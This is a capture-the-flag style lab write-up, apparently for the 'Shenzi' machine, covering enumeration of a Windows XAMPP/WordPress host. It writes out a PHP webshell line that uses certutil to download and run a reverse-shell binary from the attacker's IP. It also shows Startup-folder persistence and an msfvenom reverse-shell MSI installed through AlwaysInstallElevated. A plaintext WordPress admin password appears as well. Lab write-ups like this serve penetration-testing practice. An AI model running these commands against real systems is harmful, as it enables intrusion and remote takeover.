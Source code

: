 #InProgress 
```IP
192.168.171.55
```
## Nmap
```
PORT     STATE SERVICE       REASON          VERSION                                    21/tcp   open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.41 beta   
| ftp-syst:                                                                             |_  SYST: UNIX emulated by FileZilla                                                    80/tcp   open  http          syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.171.55/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-title: Welcome to XAMPP
|_Requested resource was https://192.168.171.55/dashboard/ 
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6 
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds? syn-ack ttl 125
3306/tcp open  mysql?        syn-ack ttl 125
| fingerprint-strings: 
|   DNSStatusRequestTCP, Help, Kerberos, LANDesk-RC, LPDString, NULL, RPCCheck, SMBProgNeg, TLSSessionReq, X11Probe:  
|_    Host '192.168.45.201' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host '192.168.45.201' is not allowed to connect to this MariaDB server
```

## Nmap UDP


# Enumeration

## HTTP
### Technologies
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093827.png?raw=true)
img
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093638.png?raw=true)
phpinfo.php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093618.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093711.png?raw=true)
xampp
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093746.png?raw=true)
Webdav arbitrary file upload not working
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028100413.png?raw=true)
Remember to use the key words obtained in EVERYTHING even directories:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028110304.png?raw=true)
with admin:FeltHeadwallWight357 we can enter in the wp-admin subdirectory

we can edit php files in the appearance utility
```
<?php $exec = system('certutil -urlcache -f http://192.168.45.201:8000/rev.exe rev.exe && rev.exe', $val) ?>
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028113157.png?raw=true)
we create our revshell ang get a shell
## SMB
enum4linux
```
enum4linux -a -u "guest" -p "" 192.168.171.55
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028095228.png?raw=true)
with a non existant user and password we get
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028100934.png?raw=true)

Files in Shenzi share
http://localhost/test.php
http://localhost/myhome/test.php
 A password file containing credentials and some tokens
```
 522b574a21767922222439295b4b2975
```
```

```
 further enumeration reveals that 
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028102220.png?raw=true)
# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028113229.png?raw=true)


## Automated

### Peass
unquoted and allaccess files on startup
C:\Users\shenzi\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
iwr http://192.168.45.201:8000/rev1234.exe -outfile .\Start.exe
```
```
copy Start.exe C:\Users\shenzi\AppData\Roaming\Microsoft\Windows\
```
C:\Users\shenzi\AppData\Local\Microsoft\OneDrive\OneDrive.exe
Packages msi are installed automatically
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028160908.png?raw=true)


```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.201 LPORT=12134 -f msi -o shell.msi
```
```
$pkg = 'C:\Users\shenzi\shell.msi'
```
```
start-process msiexec "/i $pkg /qn"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028161423.png?raw=true)

### Mimikatz

